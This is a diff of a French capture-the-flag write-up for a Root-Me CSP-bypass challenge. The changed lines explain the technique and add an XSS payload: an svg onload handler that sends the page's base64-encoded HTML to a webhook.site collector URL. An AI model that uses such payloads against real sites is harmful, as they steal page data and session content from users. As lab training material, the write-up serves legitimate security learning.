

Before and after one commit to Gozenmoyuko/Write-Up-CTF, a Markdown page: Write Up/Root-me/Web-Client CSP Bypass - Inline code.md, the part around one of its changes. Rendered like a GitHub page; pictures changed too: Pasted image 20260815010857.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
vault backup: 2026-08-15 01:22:34

````diff
--- a/Write Up/Root-me/Web-Client CSP Bypass - Inline code.md
+++ b/Write Up/Root-me/Web-Client CSP Bypass - Inline code.md
@@ -92,7 +92,7 @@ Bon donc après le .concat permet juste de collé à ?c= ce qui va donner :
 
 Bon maintenant pourquoi le encodeURIComponent ?
 
-En réalité, lorsque vous êtes habituer vous verrez que l'option d'encodage en base 64 btoa(encodage) et atob (pour décoder) si vous récupérer directement les caractère + seront remplacer par " " ce qui donne donc un code en base64 qui n'est pas facile à décoder. Il faudrait parse (lire la donnée) et séparer avec un .replace ou autre pour remplacer les caractère. Or ici encodeURIComponent va permettre de mettre tous les signes comme +, " " "/" etc... en code URL Encode. Ce qui donne par exemple pour le + => %2B etc... et donc par la suite btoa va pouvoir bien encoder les données en base64.
+En réalité, lorsque vous êtes habituer vous verrez que l'option d'encodage en base 64 btoa(encodage) et atob (pour décoder) si vous récupérer directement les caractère + seront remplacer par " " ce qui donne donc un code en base64 qui n'est pas facile à décoder. Il faudrait parse (lire la donnée) et séparer avec un .replace ou autre pour remplacer les caractère. Or ici encodeURIComponent va permettre de mettre tous les signes comme +, " ", "/" etc... en code URL Encode. Ce qui donne par exemple pour le + => %2B etc... et donc par la suite btoa va pouvoir bien encoder les données en base64.
 
 Bon maintenant nous savons que l'ont veut récupérer les données qui se situe actuellement sur la page web car c'est ce qui nous ai dis avec :
 
@@ -100,11 +100,23 @@ Bon maintenant nous savons que l'ont veut récupérer les données qui se situe
 
 {FLAG_REDACTED} qui est actuellement dans la page.
 
+c'est pour cela qu'on met :
+```html
+document.body.innerHTML
+```
 
-![](../img/Pasted%20image%2020260815000649.png)
+Qui récupéreras les données dans le body de la page (le code HTML) et grâce au btoa cela va encoder la page en base64.
+
+Bon récapitulatif du payload :
+
+```html
+http://challenge01.root-me.org:58008/page?user=<svg onload="document.location.href='https://webhook.site/baad9b72-09e4-47bc-b3e9-29368cce0caa?c='.concat(encodeURIComponent(btoa(document.body.innerHTML)))">
+```
 
 
+![](../../Pasted%20image%2020260815010857.png)
 
+Bon je vais pas vous mentir actuellement vous pourrez attendre longtemps rien n'arriveras p
 
 Nouveau Payload
 
````
Also changed, not shown: other parts of Write Up/Root-me/Web-Client CSP Bypass - Inline code.md (+3 -3 lines), 1 other file.
